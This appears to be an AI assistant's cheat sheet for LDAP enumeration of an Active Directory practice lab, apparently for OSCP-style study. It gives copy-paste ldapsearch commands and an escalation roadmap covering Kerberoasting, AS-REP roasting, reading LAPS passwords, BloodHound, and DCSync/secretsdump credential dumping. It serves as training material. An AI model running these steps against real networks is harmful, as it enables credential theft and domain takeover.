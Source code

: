 
> Quick reference for LDAP enumeration against example `ldap://10.10.10.182` (CASC-DC1).

---

## Summary

- **Domain:** `cascade.local`
    
- **Domain Controller (queried):** `CASC-DC1.cascade.local` (`10.10.10.182`)
    
- **Goal:** Enumerate users, groups, SPNs, computers, LAPS entries, and preauth-disabled accounts; identify Kerberoast / AS-REP / LAPS targets and paths to escalation.
    

---

## Quick checklist (priority)

1. Enumerate groups & Domain Admins
    
2. Find accounts with SPNs (Kerberoast targets)
    
3. Find accounts with Kerberos preauth disabled (AS-REP targets)
    
4. Enumerate computers and check for `ms-Mcs-AdmPwd` (LAPS)
    
5. Identify `adminCount` / Admin-like users
    
6. If creds are obtained: run BloodHound/SharpHound, DCSync checks, `secretsdump` path
    

---

## Useful `ldapsearch` commands (copy/paste)

### 1) Export all user sAMAccountNames

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" -LLL \
  "(&(objectCategory=person)(objectClass=user))" sAMAccountName | \
  awk '/^sAMAccountName: /{print $2}' > users.txt
```

### 2) Users + useful attributes (memberOf, adminCount, SPN, last logon)

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(&(objectCategory=person)(objectClass=user))" \
  sAMAccountName memberOf userAccountControl adminCount servicePrincipalName pwdLastSet lastLogonTimestamp msDS-User-Account-Control-Computed -LLL
```

### 3) Find accounts that have SPNs (Kerberoast targets)

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(&(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName -LLL
```

### 4) Find possible AS-REP (preauth-disabled) targets

> LDAP queries for this can be finicky. If you prefer tooling, use GetNPUsers (Impacket) or PowerView.

LDAP approach (returns msDS computed field if available):

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(msDS-User-Account-Control-Computed=*)" sAMAccountName msDS-User-Account-Control-Computed -LLL
```

### 5) Enumerate computer objects (hostnames, machine SPNs)

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(objectCategory=computer)" dNSHostName servicePrincipalName -LLL
```

### 6) Check for LAPS stored local admin passwords

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(&(objectCategory=computer)(ms-Mcs-AdmPwd=*))" dNSHostName ms-Mcs-AdmPwd -LLL
```

### 7) List members of Domain Admins

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "CN=Domain Admins,CN=Users,DC=cascade,DC=local" member -LLL
```

### 8) Enumerate groups (quick)

```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" "(objectCategory=group)" cn member -LLL
```

---

## Explanation / Notes (why these matter)

- **servicePrincipalName (SPN):** accounts with SPNs can be Kerberoasted. You request a service ticket for the SPN, extract the ticket encrypted part, and crack offline.
    
- **ms-Mcs-AdmPwd (LAPS):** if readable, gives local admin password for a computer object. RDP/SMB with these creds frequently leads to lateral movement.
    
- **adminCount:** set to `1` on objects protected by AdminSDHolder (often indicates privileged account membership or formerly privileged accounts).
    
- **msDS-User-Account-Control-Computed / userAccountControl bits:** can indicate `DONT_REQUIRE_PREAUTH` (AS-REP roastable accounts).
    

---

## Recommended tools & one-liners (after enumeration)

### Without creds (anonymous / low-privilege binds)

- `ldapsearch` — manual enumeration (you’re doing this).
    
- `ldapdomaindump` — automated dump of LDAP/DNS/GPO info.
    
- `GetNPUsers.py` (Impacket) / `Rubeus` — check AS-REP roastable users (if discoverable).
    

### With creds (any domain user)

- **Kerberoast:** `GetUserSPNs.py` (Impacket) to request service tickets, then crack with `hashcat` / `john`.
    
- **AS-REP roast:** `GetNPUsers.py` (Impacket) to request AS-REP data and crack offline.
    
- **BloodHound / SharpHound:** collect data for attack graph analysis (ACLs, group membership, sessions, SPNs). Use BloodHound to find DA paths.
    
- **CrackMapExec:** `crackmapexec ldap <dc-ip> -u <user> -p <pass>` for quick checks and enumeration.
    

### If elevated / DA obtained

- `secretsdump.py` (Impacket) / `DCSync` to pull NTDS or perform full credential dump.
    
- Dump LAPS across machines if ACLs allow.
    

---

## Short escalation roadmap (ordered)

1. **SPN -> Kerberoast**: collect SPNs -> request TGS -> crack offline. If cracked, use creds to pivot.
    
2. **LAPS**: search for `ms-Mcs-AdmPwd` -> RDP/SMB into host -> escalate locally.
    
3. **AS-REP**: identify preauth-disabled users -> GetNPUsers -> crack offline.
    
4. **Group / ACL analysis**: with creds, run SharpHound -> BloodHound -> find DCSync or unconstrained delegation paths.
    
5. **DCSync / secretsdump**: if you find `Replicating Directory Changes` rights or DA creds, extract hashes.
    

---

## Practical tips / gotchas

- LDAP query results can be large — use `-LLL` to clean up formatting and `sed`/`awk` to parse.
    
- `userAccountControl` bit checks are easier with PowerView (PowerShell). If you have Windows/PowerShell, use `Get-NPUsers` or `Get-UserProperty` helpers.
    
- Kerberoast targets may be service accounts with long-running passwords — prioritize those.
    
- LAPS values are often rotated — try immediately after you read them.
    
- Always export raw results (`> filename`) so you can parse offline and feed into tools (e.g., list of SPNs to GetUserSPNs).
    

---

## Example workflow (commands stitched together)

```bash
# get users
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" -LLL "(&(objectCategory=person)(objectClass=user))" sAMAccountName > users_raw.txt

# get SPNs
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" -LLL "(&(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName > spn_list.txt

# query LAPS (if any)
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" -LLL "(&(objectCategory=computer)(ms-Mcs-AdmPwd=*))" dNSHostName ms-Mcs-AdmPwd > laps.txt
```

---

## What to save in your notes

- `users.txt` (all sAMAccountName)
    
- `spn_list.txt` (account + SPN)
    
- `laps.txt` (host + ms-Mcs-AdmPwd)
    
- `groups_membership.txt` (members of Domain Admins, Enterprise Admins, etc.)
    

---

If you want:

- I can convert these into a single printable `.md` or `.pdf` OSCP note file.
    
- Or I can create a separate canvas write-up that replaces the placeholders with the exact outputs you got (copy/paste your results and I’ll inject them).
    

Good luck — paste the output files if you want me to annotate them in-line.